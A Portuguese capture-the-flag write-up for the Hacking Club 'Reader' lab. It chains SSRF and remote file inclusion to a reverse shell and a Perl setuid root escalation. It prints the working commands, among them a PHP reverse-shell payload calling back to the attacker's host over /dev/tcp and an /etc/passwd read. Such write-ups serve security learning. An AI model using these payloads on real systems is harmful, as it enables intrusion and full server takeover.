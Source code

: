 ```yaml
---
title: 'Reader Writeup'
date: '2024-06-29'
tags: ['SSRF','RFI']
draft: false
summary: 'Writeup do CTF Reader da Hacking Club.'
images: ['/static/images/canada/mountains.jpg', '/static/images/canada/toronto.jpg']
authors: ['default']
---
```

![Logo Reader](/static/images/writeup-reader-images/logo-reader.png)

## **Plataforma**: Hacking Club

### **Dificuldade:** Easy

### **Nome**: Reader

### IP: 172.16.4.104

**Gabriel Silva | 29 de junho, 2024**

---

### **Port Scanning**

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1b:6f:d9:6f:08:c8:eb:59:76:5f:fe:f5:1f:28:b4:d2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCdE/+UDioqJcBqKEjyENBihhOMB9Ocue8I+pDmGchJZvrGwO2MbIiL6VLH+bqm08nrq+NdjzWM7TewudhK9viM=
|   256 81:51:ba:61:11:db:07:50:51:66:92:d8:e1:ff:68:36 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKH7CspTNqFcDLRTPhHJYggspYSAuzmq+DXCv2U/Q2Jq
80/tcp open  http    syn-ack Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Emergency Maintenance
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Essa maquina tem somente as portas 22 (SSH) e 80 (HTTP) aberta.

### **Enumeration**

Uma página web simples que aparentemente está em manutenção e somente o serviço de API está funcionando.
![Página de manutenção](/static/images/writeup-reader-images/1.png)

Nada no robots.txt.

Não tem muito o que se fazer , então fiz um fuzzing pra procurar por diretórios antes de ver essa API.

`gobuster dir -u $URL -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories.txt -x php,sh,txt,cgi,html,js,css,py`

```bash
Starting gobuster in directory enumeration mode
===============================================================
/api.php              (Status: 200) [Size: 56]
/index.php            (Status: 200) [Size: 17866]
/logfiles             (Status: 301) [Size: 315] [--> <http://172.16.4.104/logfiles/>]

```

Tem um diretório chamado `logfiles` que vai ser útil mais pra frente.

---

Na parte de API diz que só aceita requisições POST.

![API POST](/static/images/writeup-reader-images/2.png)
Peguei a requisição pelo burp pra enviar com POST.
![Burp requisicao](/static/images/writeup-reader-images/3.png)
Diz que esta faltando um parâmetro chamado URL.

Por alguma razão pelo burp não esta funcionando passar o parâmetro , mas via curl deu certo:

![Curl POST](/static/images/writeup-reader-images/4.png)
`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1"`


Ele está salvando a requisição em algum lugar no arquivo .txt (Salvo em /logfiles/ achado via gobuster).
![Curl resposta](/static/images/writeup-reader-images/curl-1.png)Como o parâmetro se chama `url` podemos deduzir que se trata de um SSRF.
Utilizei esse simples port scan pra descobrir quais portas internas o servidor possui.

```bash
for port in 22 21 25 80 8080 3306 5432 8443 445 9000; do echo "Scanning port $port..."; curl -X POST -s -d "url=http://127.0.0.1:$port" "<http://172.16.4.104/api.php>" | cat; done
```

Foi achado 2 portas interessantes com esse portscan a porta 3306 e a 8080:
![Portas interessantes](/static/images/writeup-reader-images/curl-2.png)
Agora é fazer a requisição na porta 8080 com o curl e ver .

`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/"`

![Curl 8080](/static/images/writeup-reader-images/curl-3.png)A gente pode ir no diretorio `logfiles` pra ver qual foi a resposta do servidor.

![Logfiles resposta](/static/images/writeup-reader-images/logfile-output-1.png)
`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php"`
![Curl read.php](/static/images/writeup-reader-images/curl-4.png)
Lendo o output , ele diz que falta um parâmetro chamado `file`
![Logfiles output 2](/static/images/writeup-reader-images/logfile-output-2.png)
`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php?file=/etc/passwd"`
![Curl etc/passwd](/static/images/writeup-reader-images/curl-5.png)
![Logfiles output 3](/static/images/writeup-reader-images/logfile-output-3.png)
Pra entender melhor o que a aplicação está fazendo a gente vai ler o arquivo read.php utilizando o schema `php://`

Lembrando que é necessário converter pra base64 , por que se não a aplicação vai nos retornar uma pagina em branco.

`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php?file=php://filter/convert.base64-encode/resource=read.php"`
![Curl base64](/static/images/writeup-reader-images/curl-6.png)
![Logfiles output 4](/static/images/writeup-reader-images/logfiles-output-4.png)
![Decode base64](/static/images/writeup-reader-images/decode-base64.png)

`Include $_GET ['file']` indica um RFI (Remote-File Inclusion) que podemos usar pra ganhar acesso ao servidor.

## Foothold

`python3 -m http.server`

```bash
#shell.php
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.0.31.150/1337 0>&1'"); ?>
```
![Python server](/static/images/writeup-reader-images/python -m http-server.png)
Agora é so mandar a requisição pro servidor.
`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php?file=http://10.0.31.150:80/shell.php"`
![Foothold](/static/images/writeup-reader-images/foothold.png)
## Privilege Escalation

`getcap -r / 2>/dev/null`
![Privesc 1](/static/images/writeup-reader-images/privesc-1.png)
`/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";’`
![Privesc 2](/static/images/writeup-reader-images/privesc-2.png)
## Proof
![Proof](/static/images/writeup-reader-images/proof.png)